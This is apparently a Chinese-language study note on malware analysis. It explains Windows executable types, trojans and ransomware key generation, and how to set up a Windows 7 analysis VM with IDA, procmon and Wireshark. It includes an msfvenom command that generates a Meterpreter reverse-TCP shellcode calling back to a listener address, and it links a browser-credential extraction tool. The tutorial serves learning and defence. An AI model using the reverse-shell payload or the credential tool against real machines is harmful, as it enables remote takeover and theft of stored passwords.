

> 恶意代码学习网站
+ [看雪](https://bbs.pediy.com/)
+ [吾爱破解](https://www.52pojie.cn/)


## Windows 中的文件类型

> 可执行文件与不可执行文件,分类是怎么来的?

+ windows操作系统
  + 可执行文件: `windows操作系统中有一些文件是原生就支持windows环境的,
  + PE:
    + 一种代码结构,是windows定义的固定格式

+ **`exe,dll,sys` ,这三类就是能在原生 `Windows` 系统环境下就能直接运行的文件**
  + <font color='red' face=Monaco size=3>通常情况下我们运行 `dll` 是通过 `rundll32 xxx.dll`</font> 而这个方式运行其实是比较特殊的，`rundll32` 其实是系统内额外的一个组件，正常情况下我们运行 `dll` 都是通过 `exe` 文件来调用相关的 `dll` 

+ **`msi,zip,iso,rar` 这些都不是可执行文件，都是类似压缩形式的文件**
  + `msi` 是 Windows 系统下安装格式的文件
+ **`bat,py` 这些形式的脚本文件也不是可执行文件**
  + 如 `python xxx.py` 其实运行的是 `python` 这个解释器,`python` 这个解释器才是可执行文件。
  + `xxx.bat` 也是一样的，它运行的是 `cmd.exe`


## windows下运行代码的基本过程

`Windows` 下运行代码的基本过程其实和在 `Linux` 环境下运行代码的过程基本一致。


最终我们运行的是一个二进制可执行文件,而我们的 `shellcode` 最终运行的形式也是二进制.

下面我们使用 `msfvenom` 生成一个能运行在 `Windows32` 架构的 `shellcode` 

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
lhost=192.168.31.2 lport=4444 -f hex
```
+ `-p` 指定 `shellcode` 的类别和运行在什么架构上
+ `-f` 指定输出的格式，如 `-f py` 则指定输出 python 语言格式的 `shellcode`
 


为让输出更友好，我们可以使用 `python` 代码来优化一下。
```python
res = [shellcode[i:i+2] for i in range(0,len(shellcode),2)]
```


为搞清楚这些代码对应的汇编指令是啥，我们可以使用 `OD` 来进行查看

我们可以将我们的 `Hex shellcode` 复制，然后打开 OD 并随便选择一个程序进行调试，然后我们将其汇编代码拖到下方，直到有好多 `0000` 类似的空白区域，（ 越大越好 ）， <font color='red' face=Monaco size=3>我们选中一块区域，然后右键点击选中的区域，选择 `二进制` 然后点击 `二进制复制`</font> (选中的区域也应尽量大一点，防止翻译不全)


之后我们就在 OD 里查看，并调试我们的二进制代码啦。

> 详细过程，这边就不详细介绍了，因为这个话题过于巨大了。

## 常见的恶意代码类型:

### 木马

+ **木马特点:**
  + <font color='red' face=Monaco size=3>一定会有通信模块</font> 
  + 功能模块上的执行一定是针对性的
+ 举例: 如果我们现在想下载目标机器上的一个文件 基本思路是:
  + `运行exe --> 找文件 --> 上传文件`
  + 而木马则是当 XXX 触发时则执行 XXX

<font color='red' face=Monaco size=3>而只有通信部分，功能模块后面通过通信模块传输到目标机器上面，这个模式叫 `stageless`</font>

在 `cs` 里生成木马，也是有两个选项 `exe/exe(s)` 而这个 s 就代表我们要生成 `stageless` 模式的木马


### 病毒
<font color='red' face=Monaco size=3>破坏原有计算机的环境</font>

勒索病毒:破坏原本计算机的文件环境 `xxx.exe --> xxx.jiami`
1. 识别环境,如判断目标的操作系统，系统版本，等等
2. 修改环境,如对目标的文件系统进行加密，破坏等
3. 还原环境(大部分有) 勒索软件...

如果勒索软件有通信功能 <font color='red' face=Monaco size=3>代表它有解密的可能性</font> 


**特点: 绝大部分有密码学相关的东西**


密钥的生成方式：
  + **在攻击机上先生成**：
    + 加密比较简单，密钥不是特别复杂,容易被破解
    + 一般为随机数，生成时间...
  + **如果在受害者机器上后生成**：
    + 加密的密钥生成有很多种方式
      + 触发恶意代码的时间
      + 用户名称
      + 操作系统内核版本
      + 等等攻击能获得的一切信息,都可能用来生成密钥
    + 常采用这种方式


---
### 恶意行为

<font color='red' face=Monaco size=3>蠕虫,捆绑与挖矿算不算一个单独的恶意代码类型?</font> 
+ 不算，他们只能算是一种行为

---

+ 什么叫恶意行为 主要围绕：CIA (完整性，可用性，机密性)?
  + 所有触发不符合我们预期结果的行为都叫恶意行为
+ 常见的恶意行为有哪些:
  + 破坏环境(文件,操作系统)
  + 计算机相关的 (开机,关机)
  + 信息被泄露
  + 信息被修改

`hack_browse_data.exe` 获取浏览器信息

[Download Link](https://github.com/moonD4rk/HackBrowserData/releases)


## 搭建恶意代码分析环境

+ [各种 Windows 产品的镜像 ](https://msdn.itellyou.cn/)
+ [Windows7 enterpreter iso]()
+ [逆向常用软件包](./1.assets/retools.zip)

首先我们需要下载 `win7` 的镜像文件，然后使用这个镜像文件，创建 `Windows7` 的虚拟机。

如何你是使用 `Virtual Box` 这个虚拟机模拟软件的话,在你安装完虚拟机之后，会出现以下问题

如果你使用 `Vmware` 也存在类似的问题，只需要安装 `Vmware tools` 然后重新启动虚拟机即可。

<font color='red' face=Monaco size=3>虚拟机的屏幕并没有铺满整个软件窗口框.</font>


我们可以通过以下方式进行解决

<font color='red' face=Monaco size=3>点击 Virtual Box 状态栏上面的 `Devices` 然后点击 `Insert Guest Additions CM image`</font> 来安装 `Virtual box` 的增强工具，类似 `VMware` 里的 `Vmware tools`. 

然后进入到 `CD` 内运行 `VBoxWindowsAdditions` 来安装相关工具。


重启之后就看见铺满窗口的虚拟机啦。

<font color='red' face=Monaco size=3>对于如何创建虚拟机网上有很多教程，这边就不再演示了。</font>

安装相关软件。


### 缺少相关DLL

如果打开 `IDA` 等软件时，提示缺少了 `XXX.DLL` 我们需要将其进行~~手动安装~~，但是网上的方式大多都试过，都没什么效果。


<font color='red' face=Monaco size=3>下面推荐使用一种我成功了的方式：重新安装 `visual studio code 2015` 的相关组件。</font>

你只需要下载这个文件 [vc_redist.x64.exe](https://aka.ms/vs/17/release/vc_redist.x64.exe) (我默认你装的是 win7 并且为 64位机器) 如果你是其它32位的下载对应版本即可


然后在虚拟机内运行该 `exe文件` 即可。

### procmon运行不了

关于 `procmon/procexp` 运行不了的问题，一般来讲就是版本过新问题，重新下载一下历史可用版本即可。

错误截图如下：
+ `Process Explorer` 的报错截图:

   
+ `Process Monitor` 的报错截图:

  

当我使用以下这两个版本时，在 `Windows7` 下是能够成功运行的
+ `procmon:v3.33`
+ `procexp:v15.13`


### Wireshark

如果你下载 `Wireshark` 然后进行安装，出现以下报错，说明你下载的 `Wireshark` 版本过新。



在 `Win7` 上发现 `Wireshark:3.2.1` 版本并不会报错。


最后记得对自己配置好的虚拟机拍摄一个快照


这时候你就可以去找一些恶意样本，然后放到你的虚拟机内，进行相关分析。<font color='red' face=Monaco size=3>记得将网卡断开</font>

**一些关于恶意样本的网站**
+ [微步云](https://s.threatbook.cn/)
+ [卡饭论坛](https://bbs.kafan.cn/forum-31-1.html)
+ [Triage](https://tria.ge/)
+ [吾爱破解](https://www.52pojie.cn/forum-32-1.html) 
+ [any.run](https://any.run/)

